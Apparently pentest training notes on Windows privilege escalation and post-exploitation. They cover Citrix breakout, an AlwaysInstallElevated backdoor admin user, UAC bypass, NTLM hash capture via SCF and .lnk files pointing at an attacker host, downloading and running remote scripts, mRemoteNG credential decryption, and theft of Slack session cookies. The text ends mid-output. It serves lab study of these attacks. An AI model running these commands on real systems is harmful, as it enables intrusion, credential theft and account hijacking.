In certain environments, where minimal hardening measures are implemented, there might even be a standard shortcut to cmd.exe in the Start Menu, potentially aiding in unauthorized access. However, in a highly restrictive lock-down environment, any attempts to locate "cmd.exe" or "powershell.exe" in the start menu will yield no results. Similarly, accessing `C:\Windows\system32` through File Explorer will trigger an error, preventing direct access to critical system utilities. Acquiring access to the "CMD/Command Prompt" in such a restricted environment represents a notable achievement, as it provides extensive control over the OS. This level of control empowers an attacker to gather valuable information, facilitating the further escalation of privileges.

#### Bypassing Path Restrictions

When you attempt to visit `C:\Users` using File Explorer, you find it is restricted and results in an error. This indicates that group policy has been implemented to restrict users from browsing directories in the `C:\` drive using File Explorer. In such scenarios, it is possible to utilize windows dialog boyes as a means to bypass the restrictions imposed by group policy. Once a Windows dialog box is obtained, the next step often involves navigating to a folder path containing native executables that offer interactive console access. Usually, you have the option to directly enter the folder path into the file name field to gain access to the file.




Numerous desktop applications deployed via Citrix are equipped with functionalities that enable them to interact with files on the OS. Features like Save, Save As, Open, Load, Browse, Import, Export, Help, Search, Scan, and Print, usually provide an attacker with an opportunity to invoke a Windows dialog box. There are multiple ways to open dialog box in Windows using tools such as Paint, Notepad, Wordpad, etc.

Run "Paint" from start menu and click on "File -> Open" to open the dialog box.



With the Windows dialog box open for paint, you can enter the UNC path `\\127.0.0.1\c$\users\pmorgan` under the File name field, with File-Type set to "All Files" and upon hitting enter you gain access to the desired directory.



#### Accessing SMB Share from Restricted Environment

Having restrictions set, File Explorer does not allow direct access to SMB shares on the attacker machine, or the Ubuntu server hosting the Citrix environment. However, by utilizing the UNC path within the Windows dialog box, it's possible to circumvent this limitation. This approach can be employed to facilitate file transfers from a different computer.

Start a SMB server from the Ubuntu machine:

```bash
root@ubuntu:/home/htb-student/Tools# smbserver.py -smb2support share $(pwd)

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Back in Citrix environment, initiate the "Paint" application via the start menu. Proceed to navigate to the "File" menu and select "Open", thereby prompting the dialog box to appear. Within this Windows dialog box associated with Paint, input the UNC path as `\\10.13.38.95\share` into the designated "File name" field. Ensure that the File-Type parameter is configured to "All Files". Upon pressing the "Enter" key, entry into the share is achieved.



Duo to the presence of restrictions within the File Explorer, direct file copying is not viable. Nevertheless, an alternative approach involves right-clicking on the executables and subsequently launching them. Right-click on the pwn.exe binary and select "Open", which should prompt you to run it and a cmd console will be opened.



The executable pwn.exe is a custom compiled binary from pwn.c file which upon execution opens up the cmd.

```c
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```

You can then use the obtained cmd access to copy files from SMB share to pmorgan's Desktop directory.



#### Alternate Explorer

In cases where strict restrictions are imposed on File Explorer, alternative File System Editors like Q-Dir or Explorer++ can be employed as a workaround. These tools can bypass the folder restrictions enforced by group policy, allowing users to navigate and access files and directories that would otherwise be restricted within the standard File Explorer environment.

It's worth noting the previous inability of File Explorer to copy files from the SMB share due to restrictions in place. However, through the utilization of Explorer++, the capability to copy files from the `\\10.13.38.95\share` location to the Desktop belonging to the user pmorgan has been successfully demonstrated in following screenshot.



Explorer++ is highly recommended and frequently used in such situations due to its speed, user-friendly interface, and portability. Being a portable application, it can be executed directly without the need for installation, making it a convenient choice for bypassing folder restrictions set by group policy.

#### Alternate Registry Editors



Similarly when the default Registry Editor is blocked by group policy, alternative Registry editors can be employed to bypass the standard group policy restrictions. [Simpleregedit](https://sourceforge.net/projects/simpregedit/), [Uberregedit](https://sourceforge.net/projects/uberregedit/) and [SmallRegistryEditor](https://sourceforge.net/projects/sre/) are examples of such GUI tools that facilitate editing the Windows registry without being affected by the blocking imposed by group policy. These tools offer a practical and effective solution for managing registry settings in such restricted environments.

#### Modify existing Shortcut File

Unauthorized access to folder paths can also be achieved by modifying existing Windows shortcuts and setting a desired executable's path in the "Target" field.

The following steps outline the process:

1. Right-click the desired shortcut.
2. Select "Properties".
3. Within the "Target" field, modify the path to the intended folder for access.
4. Execute the Shortcut and cmd will be spawned.

In cases where an existing shortcut file is unavailable, there are alternative methods to consider. One option is to transfer an existing shortcut file using and SMB server. Alternatively, you can create a new shortcut file using PowerShell. These approaches provide versatility in achieving your objectives while working with shortcut files.

#### Script Execution

When script extensions such as .bat, .vbs, or .ps are configured to automatically execute their code using their respective interpreters, it opens the possibility of dropping a script that can serve as an interactive console or facilitate the download and launch of various third-party applications which results into bypass of restrictions in place. This situation creates a potential security vulnerability where malicious actors could exploit these features to execute unauthorized actions on the system.

1. Create a new text file and name it "evil.bat".
2. Open "evil.bat" with a text editor such as Notepad.
3. Input the command "cmd" into the file.
4. Save the file.

Upon executing the "evil.bat" file, it will initiate a Command Prompt window. This can be useful for performing various command-line operations.

#### Escalating Privileges

Once access to the command prompt is established, it's possible to search for vulns in a system more easily. For instance, tools like [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) and [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) can also be employed to identify potential security issues and vulns within the OS.

Using PowerUp.ps1, you find that "Always Install Elevated" key is present and set.

You can also validate this using the Command Prompt by querying the corresponding registry keys:

```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1


C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1
```

Once more, you can make use of PowerUp, using its `Write-UserAddMSI` function. This function facilitates the creation of an .msi file directly on the desktop.

```powershell
PS C:\Users\pmorgan\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\pmorgan\Desktop> Write-UserAddMSI
	
Output Path
-----------
UserAdd.msi
```

Now you can execute UserAdd.msi and create a new user `backdoor:T3st@123` under Administrator group. Note that giving it a password that doesn't meet the complexity criteria will throw an error.



Back in CMD execute `runas` to start command prompt as the newly created backdoor user.

```
C:\> runas /user:backdoor cmd

Enter the password for backdoor: T3st@123
Attempting to start cmd as user "VDESKTOP3\backdoor" ...
```

#### Bypassing UAC

Even though the newly established user backdoor is a member of Administrators group, accessing the `C:\users\Administrator` directory remains unfeasible due to the presence of UAC. UAC is a security mechanism implemented in Windows to protect the OS from unauthorized changes. With UAC, each application that requires the administrator access token must prompt the end user for consent.

```
C:\Windows\system32> cd C:\Users\Administrator

Access is denied.
```

Numerous [UAC bypass](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) scripts are available, designed to assist in circumventing the active UAC mechanism. These scripts offer methods to navigate past UAC restrictions and gain elevated privileges.

```powershell
PS C:\Users\Public> Import-Module .\Bypass-UAC.ps1
PS C:\Users\Public> Bypass-UAC -Method UacMethodSysprep
```



Following a successful UAC bypass, a new PowerShell window will be opened with higher privileges and you can confirm it by utilizing the command `whoami /all` or `whoami /priv`. This command provides a comprehensive view of the current user's privileges. And you can now access the Administrator directory.



Additional resources:

- [Breaking out of Citrix and other Restricted Desktop environments](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/)
- [Breaking ouf of Windows Environments](https://node-security.com/posts/breaking-out-of-windows-environments/)

## Additional Techniques

### Interacting with Users

Users are sometimes the weakest link in an organization. An overloaded employee working quickly may not notice something is "off" on their machine when browsing a shared drive, clickin on a link, or runnin a file. Once you have exhausted all options, you can look at specific techniques to steal credentials from an unsuspecting user by sniffing their network traffic/local commands or attacking a known vulnerable service requiring user interaction

#### Traffic Capture

If Wireshark is installed, unprivileged users may be able to capture network traffic, as the option to restrict Npcap driver access to Administrators only is not enabled by default.

Here you can see a rough example of capturing cleartext FTP credentials entered by another user while signed into the same box. While not likely, if Wireshark is installed on a box that you land on, it is worth attempting a traffic capture to see what you can pick up.



Also, suppose your client positions you on an attack machine within the environment. In that case, it is worth running tcpdump or Wireshark for a while to see what types of traffic are being passed over the wire and if you can see anything interesting. The tool [net-creds](https://github.com/DanMcInerney/net-creds) can be run from your attack box to sniff passwords and hashes from a live interface or a pcap file. It is worth letting this tool run in the background during an assessment or running it against a pcap to see if you can extract any credentials useful for privilege escalation or lateral movement.

#### Process Command Line

When getting a shell as a user, there may be scheduled tasks or other processes being executed which pass credentials on the command line. You can look for process command lines using something like this script below. It captures process command lines every two seconds and compares the current state with the previous state, outputting any differences.

```powershell
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

You can host the script on your attack machine and execute it on the target host as follows:

```powershell
PS C:\htb> IEX (iwr 'http://10.10.10.205/procmon.ps1') 

InputObject                                           SideIndicator
-----------                                           -------------
@{CommandLine=C:\Windows\system32\DllHost.exe /Processid:{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}} =>      
@{CommandLine=“C:\Windows\system32\cmd.exe” }                          =>      
@{CommandLine=\??\C:\Windows\system32\conhost.exe 0x4}                      =>      
@{CommandLine=net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd}       =>       
@{CommandLine=“C:\Windows\system32\backgroundTaskHost.exe” -ServerName:CortanaUI.AppXy7vb4pc2... <=
```

This is successful and reveals the password for the sqlsvc domain user, which you could then possibly use to gain access to the SQL02 host or potentially find sensitive data such as database credentials on the backups share.

#### Vulnerable Services

You may also encounter situations where you land on a host running a vulnerable application that can be used to elevate privileges through user interaction. [CVE-2019-15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) is a great example of this. This was a vulnerability in Docker Desktop Community Edition before 2.1.0.1. When this particular version of Docker starts, it looks for several different files, including `docker-credential-wincred.exe`, `docker-credential-wincred.bat`, etc., which do not exist with a Docker installation. The program looks for these files in the `C:\PROGRAMDATA\DockerDesktop\version-bin\`. This directory was misconfigured to allow full write access to the BUILTIN\Users group, meaning that any unauthenticated user on the system could write a file into it.

Any executable placed in that directory would run when a) the Docker application starts and b) when a user authenticates using the command `docker login`. While a bit older, it is not outside the realm of possibility to encounter a developer's workstation running this version of Docker Desktop, hence why it is always important to thoroughly enumerate installed software. While this particular flaw wouldn't guarantee you elevated access, you could plant your executable during a long-term assessment and periodically check if it runs and your privileges are elevated.

#### SCF on a File Share

A Shell Command File (_SCF_) is used by Windows Explorer to move up and down directories, show the Desktop, etc. An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. If you change the IconFile to an SMB server that you control and run a tool such as Responder, Inveigh, or InveighZero, you can often capture NTLMv2 password hashes for any users who browse that share. This can be particularly useful if you gain write access to a file share that looks to be heavily used or even a directory on a user's workstation. You may be able to capture a user's password hash and use the cleartext password to escalate privileges on the target host, within the domain, or further your access/gain access to other resources.

In this example, create the following file and name it something like `@Inventory.scf`. You put an `@` at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. Here you put in your tun0 IP address and any fake share name and .ico file name.

```
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

Next, start Responder on your attack box and wait for the user to browse the share. If all goes to plan, you will see the user's NTLMv2 password hash in your console and attempt to crack it offline.

```bash
d41y@htb[/htb]$ sudo responder -wrf -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.2.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [ON]

[+] Generic Options:
    Responder NIC              [tun2]
    Responder IP               [10.10.14.3]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']


[!] Error starting SSL server on port 443, check permissions or other servers running.
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 10.129.43.30
[SMB] NTLMv2-SSP Username : WINLPE-SRV01\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...
```

You could then attempt to crack this password hash offline using Hashcat to retrieve the cleartext.

```bash
d41y@htb[/htb]$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ADMINISTRATOR::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...:Welcome1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: ADMINISTRATOR::WINLPE-SRV01:815c504e7b06ebda:afb6d3...000000
Time.Started.....: Thu May 27 19:16:18 2021 (1 sec)
Time.Estimated...: Thu May 27 19:16:19 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1233.7 kH/s (2.74ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 43008/14344385 (0.30%)
Rejected.........: 0/43008 (0.00%)
Restore.Point....: 36864/14344385 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: holabebe -> harder

Started: Thu May 27 19:16:16 2021
Stopped: Thu May 27 19:16:20 2021
```

#### Capturing Hashes with a Malicious .lnk File

Using SCFs no longer works on Server 2019 hosts, but you can achieve the same effect using a malicious .lnk file. You can use various tools to generate a malicious .lnk file, such as [Lnkbomb](https://github.com/dievus/lnkbomb), as it is not as straightforward as creating a malicious .scf file. You can also make one using a few lines of PowerShell:

```powershell

$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

### Pillaging

... is the process of obtaining information from a compromised system. It can be personal information, corporate blueprints, credit card data, server information, infra and network details, passwords, or other types of credentials, and anything relevant to the company or security assessment you are working on.

These data points may help gain further access to the network or complete goals defined during the pre-engagement process of the pentest. This data can be stored in various applications, services, and device types, which may require specific tools for you to extract.

#### Data Sources

Below are some of the sources from which you can obtain information from compromised systems:

- installed applications
- installed services
	- websites
	- file shares
	- databases
	- directory services
	- name servers
	- deployment services
	- certificate authority
	- source code management server
	- virtualization
	- messaging
	- monitoring and logging systems
	- backups
- sensitive data
	- keylogging
	- screen capture
	- network traffic capture
	- previous audit reports
- user information
	- history files, interesting documents
	- roles and privileges
	- web browsers
	- IM clients

This is not a complete list. Anything that can provide information about your target will be valuable. Depending on the business size, purpose, and scope, you may find different information. Knowledge and familiarity with commonly used applications, server software, and middleware are essential, as most applications store their data in various formats and locations. Special tools may be necessary to obtain, extract or read the targeted data from some systems.

#### Installed Applications

Understanding which applications are installed on your compromised system may help you achieve your goal during a pentest. It's important to know that every pentest is different. You may encounter a lot of unknown applications on the system you compromised. Learning and understanding how these applications connect to the business are essential to achieving your goal.

You will also find typical applications such as Office, remote management systems, IM clients, etc. You can use `dir` or `ls` to check the content ot "Program Files" and "Program Files (x86)" to find which applications are installed. Although there may be other apps on the computer, this is a quick way to review them.

```
C:\>dir "C:\Program Files"
 Volume in drive C has no label.
 Volume Serial Number is 900E-A7ED

 Directory of C:\Program Files

07/14/2022  08:31 PM    <DIR>          .
07/14/2022  08:31 PM    <DIR>          ..
05/16/2022  03:57 PM    <DIR>          Adobe
05/16/2022  12:33 PM    <DIR>          Corsair
05/16/2022  10:17 AM    <DIR>          Google
05/16/2022  11:07 AM    <DIR>          Microsoft Office 15
07/10/2022  11:30 AM    <DIR>          mRemoteNG
07/13/2022  09:14 AM    <DIR>          OpenVPN
07/19/2022  09:04 PM    <DIR>          Streamlabs OBS
07/20/2022  07:06 AM    <DIR>          TeamViewer
               0 File(s)              0 bytes
              16 Dir(s)  351,524,651,008 bytes free
```

An alternative is to use PowerShell and read the Windows registry to collect more granular information about installed programs.

```powershell
PS C:\htb> $INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
PS C:\htb> $INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
PS C:\htb> $INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize

DisplayName                                         DisplayVersion    InstallLocation
-----------                                         --------------    ---------------
Adobe Acrobat DC (64-bit)                           22.001.20169      C:\Program Files\Adobe\Acrobat DC\
CORSAIR iCUE 4 Software                             4.23.137          C:\Program Files\Corsair\CORSAIR iCUE 4 Software
Google Chrome                                       103.0.5060.134    C:\Program Files\Google\Chrome\Application
Google Drive                                        60.0.2.0          C:\Program Files\Google\Drive File Stream\60.0.2.0\GoogleDriveFS.exe
Microsoft Office Profesional Plus 2016 - es-es      16.0.15330.20264  C:\Program Files (x86)\Microsoft Office
Microsoft Office Professional Plus 2016 - en-us     16.0.15330.20264  C:\Program Files (x86)\Microsoft Office
mRemoteNG                                           1.62              C:\Program Files\mRemoteNG
TeamViewer                                          15.31.5           C:\Program Files\TeamViewer
...SNIP...
```

You can see the "mRemoteNG" software is installed on the system. mRemoteNG is a tool used to manage and connect to remote systems using VNC, RDP, SSH, and similar protocols.

mRemoteNG saves connection info and credentials to a file called "confCons.xml". They use a hardcoded master password, "mR3m", so if anyone starts saving credentials in mRemoteNG and does not protect the configuration with a password, you can access the credentials from the configuration file and decrypt them.

By default, the configuration file is located in `%USERPROFILE%\APPDATA\Roaming\mRemoteNG`.

```powershell
PS C:\htb> ls C:\Users\julio\AppData\Roaming\mRemoteNG

    Directory: C:\Users\julio\AppData\Roaming\mRemoteNG

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/21/2022   8:51 AM                Themes
-a----        7/21/2022   8:51 AM            340 confCons.xml
              7/21/2022   8:51 AM            970 mRemoteNG.log
```

Look at the contents of the confCons.xml file.

```xml
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="QcMB21irFadMtSQvX5ONMEh7X+TSqRX3uXO5DKShwpWEgzQ2YBWgD/uQ86zbtNC65Kbu3LKEdedcgDNO6N41Srqe" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389"
    ..SNIP..
</Connections>
```

This XML document contains a root element called "Connections" with the information about the encryption used for the credentials and the attribute "Protected", which corresponds to the master password used to encrypt the document. You can use this string to attempt to crack the master password. You will find some elements named "Node" within the root element. Those nodes contain details about the remote system, such as username, domain, hostname, protocol, and password. All fields are plaintext except the password, which is encrypted with the master password.

As mentioned previously, if the user didn't set a custom master password, you can use the script [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt) to decrypt the password. You need to copy the attribute "Password" content and use it with the option `-s`. If there's a master password and you know it, you can the use the option `-p` with the custom master password to also decrypt the password.

```bash
d41y@htb[/htb]$ python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" 

Password: ASDki230kasd09fk233aDA
```

Now look at an encrypted configuration file with a custom password. For this example, you set the custom password "admin".

```xml
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="1ZR9DpX3eXumopcnjhTQ7e78u+SXqyxDmv2jebJg09pg55kBFW+wK1e5bvsRshxuZ7yvteMgmfMW5eUzU4NG" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="False" 
    
<SNIP>
</Connections>
```

If you attempt to decrypt the "Password" attribute from the node "RDP_domain", you will get the following error.

```bash
d41y@htb[/htb]$ python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA=="

Traceback (most recent call last):
  File "/home/plaintext/htb/academy/mremoteng_decrypt.py", line 49, in <module>
    main()
  File "/home/plaintext/htb/academy/mremoteng_decrypt.py", line 45, in main
    plaintext = cipher.decrypt_and_verify(ciphertext, tag)
  File "/usr/lib/python3/dist-packages/Cryptodome/Cipher/_mode_gcm.py", line 567, in decrypt_and_verify
    self.verify(received_mac_tag)
  File "/usr/lib/python3/dist-packages/Cryptodome/Cipher/_mode_gcm.py", line 508, in verify
    raise ValueError("MAC check failed")
ValueError: MAC check failed
```

If you use the custom password, you can decrypt it.

```bash
d41y@htb[/htb]$ python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p admin

Password: ASDki230kasd09fk233aDA
```

In case you want to attempt to crack the password, you can modify the script to try multiple passwords from a file, or you can create a Bash for loop. You can attempt to crack the "Protected" attribute or the "Password" itself. If you try to crack the "Protected" attribute once you find the correct password, the result will be "Password: ThisIsProtected". If you try to crack the "Password" directly, the result will be "Password: \<PASSWORD\>".

```bash
d41y@htb[/htb]$ for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done    
                              
Spring2017
Spring2016
admin
Password: ASDki230kasd09fk233aDA
admin admin          
admins

<SNIP>
```

#### Running Applications

While it is important to create a list of installed applications on the target system, it is equally important to identify which of them are currently running. For this, you'll review the running processes of the system with `Get-Process`.

```powershell
PS C:\Users\dave> Get-Process
Get-Process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
-------  ------    -----      -----     ------     --  -- -----------                                                  
     58      13      528       1088       0.00   2064   0 access                                                       
...                                                  
    369      32     9548      31320              2632   0 filezilla                                                    
...                                         
    188      29     9596      19716              3340   0 httpd                                                        
    486      49    16528      23060              4316   0 httpd                                                        
...                                                   
    205      17   210736      29228              3508   0 mysqld                                                       
...                                     
    982      32    83696      13780       0.59   2836   0 powershell                                                   
    587      28    65628      73752              9756   0 powershell                                                   
...
...
```

> [!TIP]
>  You can also use the `PID` from the output of `netstat -ano` to identify which processes are running on each port.

#### Abusing Cookies to Get Access to IM Clients

With the ability to instantaneously send messages between co-workers and teams, instant messaging (_IM_) applications like Slack or Microsoft Teams have become staples of modern office communications. These applications help in improving collaboration between co-workers and teams. If you compromise a user account and gain access to an IM Client, you can look for information in private chats and groups.

There are multiple options to gain access to an IM Client; one standard method is to use the user's credentials to get into the cloud version of the instant messaging application as the regular user would.

If the user is using any form of multi-factor authentication, or you can't get the user's plaintext credentials, you can try to steal the user's cookies to log in to the cloud-based client.

There are often tools that may help you automate the process, but as the cloud and applications constantly evolve, you may find these applications out of date, and you still need to find a way to gather information from the IM clients. Understanding how to abuse credentials, cookies, and tokens is often helpful in accessing web applications such as IM Clients.

Use Slack as an example. Multiple posts refer to how to abuse Slack such as [Abusing Slack for Offensive Operations](https://posts.specterops.io/abusing-slack-for-offensive-operations-2343237b9282) and [Phishing for Slack-Tokens](https://thomfre.dev/post/2021/phishing-for-slack-tokens/). You can use them to understand better how Slack tokens and cookies work, but keep in mind that Slack's behavior may have changed since the release of those posts.

There's a tool called SlackExtract released in 2018, which was able to extrackt Slack messages. Their research discusses the cookie named "d", which Slack uses to store the user's authentication token. If you can get your hands on that cookie, you will be able to authenticate as the user. Instead of using the tool, you will attempt to obtain the cookie from Firefox or a Chromium-based browser and authenticate as the user.

##### Cookie Extraction from Firefox

Firefox saves the cookies in an SQLite database in a file named `cookies.sqlite`. This file is in each user's APPDATA directory `%APPDATA%\Mozilla\Firefox\Profiles\<RANDOM>.default-release`. There's a piece of the file that is random, and you can use a wildcard in PowerShell to copy the file content.

```powershell
PS C:\htb> copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

You can copy the file to your machine and use the Python script [cookieextractor.py](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py) to extract cookies from the Firefox cookies.SQLite database.

```bash
d41y@htb[/htb]$ python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d

(201, '', 'd', 'xoxd-CJRafjAvR3UcF%2FXpCDOu6xEUVa3romzdAPiVoaqDHZW5A9oOpiHF0G749yFOSCedRQHi%2FldpLjiPQoz0OXAwS0%2FyqK5S8bw2Hz%2FlW1AbZQ%2Fz1zCBro6JA1sCdyBv7I3GSe1q5lZvDLBuUHb86C%2Bg067lGIW3e1XEm6J5Z23wmRjSmW9VERfce5KyGw%3D%3D', '.slack.com', '/', 1974391707, 1659379143849000, 1658439420528000, 1, 1, 0, 1, 1, 2)
```

Now that you have the cookie, you can use any browser extension to add the cookie to your browser. For this example, you will use Firefox and the extension [Cookie-Editor](https://cookie-editor.cgagnier.ca/). Make sure to install the extension by clicking the link, selecting your browser, and adding the extension. Once the extension is installed, you will see something like this:



Your target website is slack.com. Now that you have the cookie, you want to impersonate the user. Navigate to slack.com once the page loads, click on the icon for the Cookie-Editor extension, and modify the value of the "d" cookie with the value you have from the cookieextractor.py script. Make sure to click the save icon.



Once you have saved the cookie, you can refresh the page and see that you are logged in as the user.



Now you are logged in as the user and can click on "Launch Slack". You may get a prompt for credentials or other types of authentication information; you can repeat the above process and replace the cookie "d" with the same value you used to gain access the first time on any website that asks you for information or credentials.



Once you complete this process for every website where you get a prompt, you need to refresh the browser, click on "Launch Slack" and use Slack in the browser.

After gaining access, you can use built-in functions to search for common words like passwords, credentials, PII, or any other information relevant to your assessment.



##### Cookie Extraction from Chromium-based Browsers

The chromium-based browser also stores its cookies information in an SQLite database. The only differences is that the cookie value is encrypted with [Data Protection API (_DPAPI_)](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection). DPAPI is commonly used to encrypt data using information from the current user account or computer.

To get the cookie value, you'll need to perform a decryption routine from the session of the user you compromised. Thankfully, a tool [SharpChromium](https://github.com/djhohnstein/SharpChromium) does what you need. It connects to the current user SQLite cookie database, decrypts the cookie value, and presents the result in JSON format.

Use [Invoke-SharpChromium](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1), a PowerShell script which uses reflection to load SharpChromium.

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

[X] Exception: Could not find file 'C:\Users\lab_admin\AppData\Local\Google\Chrome\User Data\\Default\Cookies'.

   at System.IO.__Error.WinIOError(Int32 errorCode, String maybeFullPath)
